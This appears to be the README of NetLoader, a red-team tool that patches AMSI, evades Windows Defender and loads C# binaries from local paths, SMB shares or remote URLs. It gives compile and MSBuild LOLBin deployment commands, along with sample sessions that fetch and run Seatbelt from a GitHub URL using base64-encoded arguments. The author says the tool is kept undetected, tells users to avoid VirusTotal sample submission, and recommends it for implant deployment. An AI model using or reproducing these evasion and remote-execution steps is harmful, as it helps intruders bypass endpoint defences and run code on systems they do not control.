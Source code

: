 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and bypassing Windows Defender on runtime

Latest update / signature fix was 19.06.2020, clean as a whistle
I am doing 24/7 signature checks and pushing updates when possible so I can keep NetLoader undetected (mainly for my own educational purposes).
**Please do not upload to VirusTotal and DISABLE "Sample Submission" when testing / possible**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**!. SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.
NetLoader has to be used in interactive mode when deployed using MSBuild

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml

# Usage
Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote), non-interactive

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --path Seatbelt.exe --args whoami
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,008 seconds


Supports base64 inputs for those long strings that would usually break stuff! (non-interactive)

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe --b64 --path U2VhdGJlbHQuZXhl --args d2hvYW1p
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] All arguments are Base64 encoded, decoding them on the fly
	[+] Successfully patched AMSI!
	[+] URL/PATH : Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,006 seconds

Deploy payload from remote URI with args, input is base64 in interactive mode

	PS C:\Users\Clark Kent\Desktop> .\NetLoader.exe
	[!] ~Flangvik , ~Arno0x #NetLoader
	[?] Input X in any field to exit!
	[?] Is all input base64 encoded ? y/n -> y
	[?] Input path or url -> aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL1NoYXJwQ29sbGVjdGlvbi9yYXcvbWFzdGVyL05ldEZyYW1ld29ya180LjBfeDY0L1NlYXRiZWx0LmV4ZQ==
	[?] Is the payload data XOR encrypted ? y/n -> n
	[?] Input payload args (optional) -> d2hvYW1p
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/Seatbelt.exe
	[+] Arguments : whoami


							%&&@@@&&
							&&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
							&%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
	%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
	#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
	#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
	#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((
	#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####
	###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####
	#####%######################  %%%..                       @////(((&%%%%%%%################
							&%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*
							&%%&&&%%%%%        v1.0.0         ,(((&%%%%%%%%%%%%%%%%%,
							 #%%%%##,


	ERROR: Error running command "whoami"


	[*] Completed collection in 0,004 seconds

# Todo
- [X]  Automate the build and release of many of the Sharp Tools so they automagically appear in ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [X]  Update with credits and links to the github repos that ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) are compiled from

# Credits
[Arno0x](https://twitter.com/Arno0x0x) for the partial rewrite that is now merged into the main repo [see gist](https://gist.github.com/Arno0x/2b223114a726be3c5e7a9cacd25053a2)
[_RastaMouse](https://twitter.com/_RastaMouse/) for the [AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs)

